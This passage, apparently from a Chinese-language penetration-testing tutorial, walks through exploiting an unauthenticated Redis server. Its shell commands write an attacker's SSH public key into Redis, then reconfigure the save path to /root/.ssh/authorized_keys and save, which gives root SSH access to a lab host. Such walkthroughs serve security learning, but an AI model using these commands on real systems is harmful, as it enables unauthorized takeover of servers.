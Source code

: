 ![14](/medias/redis未授权访问控制漏洞/14.png)

去ssh生成的目录下，将公钥导入key.txt文件（前后用\n\n换行，避免和Redis里其他缓存数据混合）


```bash
cd /home/ajay/.ssh/
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > key.txt
```

把key.txt文件内容写入目标主机的缓冲里

```bash
cat key.txt | redis-cli -h 192.168.237.140 -x set sshpub
```

连接目标主机的Redis，设置redis的备份路径为/root/.ssh和保存文件名authorized_keys

注意删除缓存里无关的键值对，避免写入公钥里影响登录

```bash
redis-cli -h 192.168.237.140 -p 6379
config set dir /root/.ssh
config set dbfilename authorized_keys
keys *
del shell
get sshpub
save
```
